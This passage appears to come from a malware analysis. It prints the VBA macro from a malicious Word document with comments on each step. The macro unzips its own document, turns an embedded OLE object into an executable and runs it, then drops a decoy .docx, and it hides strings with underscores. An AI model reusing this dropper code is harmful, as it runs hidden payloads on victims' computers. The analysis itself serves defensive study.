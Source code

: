 ```vba
    Dim FSEDEO      As Object
    Set FSEDEO = CreateObject("Scripting.FileSystemObject")
    
    'The CopyFile method is used, its syntax is: object.CopyFile source, destination, [ overwrite ]
    'The document that is being executed (the .docm) is copied to the folder stored on the mfolder variable with the name domcxs
    'The method "Replace" is used to strip the underscores of the "do_mc_xs" string
    'https://learn.microsoft.com/en-us/office/vba/language/reference/user-interface-help/copyfile-method
    'https://learn.microsoft.com/en-us/office/vba/language/reference/user-interface-help/replace-function
    FSEDEO.CopyFile Application.ActiveDocument.FullName, mfolder & Replace("do_mc_xs", "_", ""), TRUE
    Set FSEDEO = Nothing
    
    'By using the function "Name" domcxs is renamed to domcxs.zip
    'Name's syntax is oldName As newName
    'https://learn.microsoft.com/en-us/office/vba/language/reference/user-interface-help/name-statement
    Name mfolder & Replace("do_mc_xs", "_", "") As mfolder & Replace("do_mc_xs.zi_p", "_", "")
    
    'domcxs.zip is extracted to the path stored in the variable mfolder
    mShellApplication.Namespace(mfolder).CopyHere mShellApplication.Namespace(mfolder & Replace("do_mc_xs.zi_p", "_", "")).items
    
    Dim poueeds     As Integer
    Dim filewedum   As String
    
    'There is a validation to see if Word's version contains ".1" before asigning the filewedum variable
    poueeds = InStr(Application.System.Version, ".1")
    filewedum = 2
    If poueeds Then
        filewedum = 1
    End If
    
    'The file mfolder\word\embeddings\oleObject1.bin is renamed  "mfoldder\word\vteijam hdgtra.zip"
    Name mfolder & "word\embeddings\oleObject1.bin" As mfolder & "word\" & mfile & Replace(".z_ip", "_", "")
    
    'The content of "mfoldder\word\vteijam hdgtra.zip" is extracted in mfolder's path
    mShellApplication.Namespace(mfolder).CopyHere mShellApplication.Namespace(mfolder & "word\" & mfile & Replace(".z_ip", "_", "")).items
    
    'mfolder\oleObjectfilewedum.bin is renamed as mfolder\mfile.exe
    Name mfolder & "oleObject" & filewedum & ".bin" As mfolder & mfile & Replace(".e_xe", "_", "")
    
    'The binary mfolder\mfile.exe is executed
    Shell mfolder & mfile & Replace(".e_xe", "_", ""), vbNormalNoFocus
    
    'The file mfolder\word\embeddings\oleObject3.bin is renamed as C:\users\USER\Documents\nameOfMaliciousDoc.docx
    Dim dokc_paeth  As String
    
    dokc_paeth = Environ$("USERPROFILE") & "\Documents\" & Application.ActiveDocument.Name & ".docx"
    
    If Dir(dokc_paeth) = "" Then
        Name mfolder & "word\embeddings\oleObject3.bin" As dokc_paeth
    End If
    
    'The .docx file is opened
    
```